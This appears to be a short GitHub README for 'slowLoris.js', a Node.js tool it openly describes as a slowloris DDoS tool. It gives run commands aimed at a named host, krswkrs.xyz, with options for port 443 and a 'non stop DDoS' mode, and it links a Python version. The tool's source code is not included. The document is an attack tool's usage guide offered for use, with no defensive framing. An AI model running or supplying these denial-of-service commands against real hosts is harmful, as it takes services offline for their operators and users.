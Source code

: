 # slowLoris.js
slowLoris DDoS on Node.js

## Uses

1. install file

// minimal

```
node index.js --host=krswkrs.xyz
```

// port

```
node index.js --host=krswkrs.xyz --port=443
```

// non stop DDoS
```
node index.js --host=krswkrs.xyz --sleeptime=0
```

Python版: [https://github.com/gkbrk/slowloris](https://github.com/gkbrk/slowloris)